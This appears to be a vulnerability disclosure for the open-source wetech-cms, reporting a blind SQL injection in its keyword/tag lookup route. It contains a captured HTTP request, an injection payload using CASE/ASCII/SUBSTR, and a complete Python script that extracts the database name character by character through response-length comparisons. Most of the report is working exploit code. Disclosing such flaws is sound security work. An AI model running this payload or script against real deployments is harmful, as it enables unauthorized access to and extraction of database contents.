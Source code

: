 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\TopicDao.java

![image-20241128204712241](../img/image-20241128204712241-1732799189720-1.png)

​	By routing we are located to the tag retrieval function

![image-20241128205044185](../img/image-20241128205044185-1732799189721-2.png)

​	and get the following data packet

```http
GET /keyword/1 HTTP/1.1
Host: 172.24.95.182:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.24.95.182:8888/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: collapase-nav=collapse-nav1; JSESSIONID=561775642554B23D11BFD032DEE33BB4
Connection: close
```

​	Construct payload:

```sql
1' or keyword like (case when ascii(substr(database(),1,1))=1 then 'a' else '' end) and keyword like '
```

​	So we have the following python script

```python
import requests
url="http://172.21.55.165:8888/keyword/1"
url1=url+"' or keyword like (case when ascii(substr(database(),1,1))=10 then 'a' else '' end) and keyword like '"#前十个字符串的10位false包
url2=url+"' or keyword like (case when ascii(substr(database(),1,1))=100 then 'a' else '' end) and keyword like '"#前十个字符串的100位false包
url1_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=10 then 'a' else '' end) and keyword like '"#前一百个字符串的10位false包
url2_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=100 then 'a' else '' end) and keyword like '"#前一百个字符串的100位false包
def req():
    req1 = requests.get(url1)#获取前十个字符串的100位false包
    req2 = requests.get(url2)#获取前十个字符串的100位false包
    req1_1 = requests.get(url1_1)#获取前一百个字符串的10位false包
    req2_1 = requests.get(url2_1)#获取前一百个字符串的100位false包
    r_len1 = len(req1.text)
    r_len2 = len(req2.text)
    r_len1_1 = len(req1_1.text)
    r_len2_1 = len(req2_1.text)
    for i in range(1,12):
        for k in range(32,127):
            payload="' or keyword like (case when ascii(substr(database(),{i},1))={k} then 'a' else '' end) and keyword like '".format(i=i,k=k)#SQL注入payload
            th_url = url + payload
            second = requests.get(th_url)
            s_len = len(second.text)
            if k < 100:
                if i < 10:
                    if s_len != r_len1:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len1_1:
                        print(chr(k), end='')
                        break
            else:
                if i < 10:
                    if s_len != r_len2:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len2_1:
                        print(chr(k), end='')
                        break
def main():
    req()

if __name__ == '__main__':
    main()
```

​	Successfully obtain the library name:

![image-20241127134337976](/image-20241127134337976-1732686251093-2-1732721872717-1-1732721891177-9-1732797677430-1-1732798458177-1-1732799189721-3.png)
